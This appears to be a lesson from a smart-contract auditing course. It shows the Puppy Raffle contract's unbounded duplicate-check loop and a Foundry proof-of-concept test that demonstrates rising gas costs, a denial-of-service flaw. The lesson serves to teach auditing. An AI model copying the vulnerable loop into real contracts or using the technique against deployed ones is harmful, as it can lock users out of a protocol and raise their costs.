 ```yaml
---
title: DoS - PoC (Proof of Code)
---
```


_Follow along with this video:_

---

### Back to Puppy Raffle

Now that we possess a little more context and understanding of what a `Denial of Service` attack is, and what it can mean for a protocol, let's return to Puppy Raffle and remind ourselves where we began.

```js
/// @notice this is how players enter the raffle
/// @notice they have to pay the entrance fee * the number of players
/// @notice duplicate entrants are not allowed
/// @param newPlayers the list of players to enter the raffle
function enterRaffle(address[] memory newPlayers) public payable {
    require(msg.value == entranceFee * newPlayers.length, "PuppyRaffle: Must send enough to enter raffle");
    for (uint256 i = 0; i < newPlayers.length; i++) {
        players.push(newPlayers[i]);
    }

    // Check for duplicates
    for (uint256 i = 0; i < players.length - 1; i++) {
        for (uint256 j = i + 1; j < players.length; j++) {
            require(players[i] != players[j], "PuppyRaffle: Duplicate player");
        }
    }
    emit RaffleEnter(newPlayers);
}
```

This should look very familiar to us by now:

```js
// Check for duplicates
// @audit Possible DoS
for (uint256 i = 0; i < players.length - 1; i++) {
    for (uint256 j = i + 1; j < players.length; j++) {
        require(players[i] != players[j], "PuppyRaffle: Duplicate player");
    }
}
```

At this point I would add this to my `notes.md`, you may want to come back to this later and continue assessing the code back, but let's go ahead and prove this finding now.

### Proof of Code

If the protocol has an existing test suite, it's often easier to add our tests to it then write things from scratch.

Run `forge test` to make sure the test suite is working correctly so far!

There are lots of useful parts of `PuppyRaffle.t.sol` we can use for our PoC.

Now, here's your challenge. I want you to try and write the `Proof of Code` yourself. Build those skills by trying to write a test function that shows the potential `Denial of Service` we've uncovered.

<details>
<summary> The Proof of Code </summary>

Great! Now that you've _100%_ tried this yourself, let's go through it together.

I would start by harvesting the existing `testCanEnterRaffle` function. This is a great boilerplate for what we're trying to show.

```js
function testCanEnterRaffle() public {
    address[] memory players = new address[](1);
    players[0] = playerOne;
    puppyRaffle.enterRaffle{value: entranceFee}(players);
    assertEq(puppyRaffle.players(0), playerOne);
}
```

Let's repurpose this!

```js
function testDenialOfService() public {
    // Foundry lets us set a gas price
    vm.txGasPrice(1);

    // Creates 100 addresses
    uint256 playersNum = 100;
    address[] memory players = new address[](playersNum);
    for(uint i = 0; i < players.length; i++){
        players[i] = address(i);
    }

    // Gas calculations for first 100 players
    uint256 gasStart = gasleft();
    puppyRaffle.enterRaffle{value: entranceFee * players.length}(players);
    uint256 gasEnd = gasleft();
    uint256 gasUsedFirst = (gasStart - gasEnd) * tx.gasprice;
    console.log("Gas cost of the first 100 players: ", gasUsedFirst);
}
```

Running the command `forge test --mt testDenialOfService -vvv` should give us an output like this:

::image{src='/security-section-4/13-dos-poc/dos-poc1.png' style='width: 75%; height: auto;'}

Now let's do the same thing for the second 100 players! We'll need to add something like this to our test.

```js
// Creates another array of 100 players
address[] memory playersTwo = new address[](playersNum);
for (uint256 i = 0; i < playersTwo.length; i++) {
    playersTwo[i] = address(i + playersNum);
}

// Gas calculations for second 100 players
uint256 gasStartTwo = gasleft();
puppyRaffle.enterRaffle{value: entranceFee * players.length}(playersTwo);
uint256 gasEndTwo = gasleft();
uint256 gasUsedSecond = (gasStartTwo - gasEndTwo) * tx.gasprice;
console.log("Gas cost of the second 100 players: ", gasUsedSecond);

assert(gasUsedFirst < gasUsedSecond);
```

If we rerun our test we can see.. Our test passes! The second 100 players are paying _a LOT_ more and are at a significant disadvantage!

::image{src='/security-section-4/13-dos-poc/dos-poc2.png' style='width: 75%; height: auto;'}

</details>


### Wrap Up

That's all there is to it. We've clearly shown a potential `Denial of Service` through our `Proof of Code`. This test function is going to go right into our report.

Let's do that now!
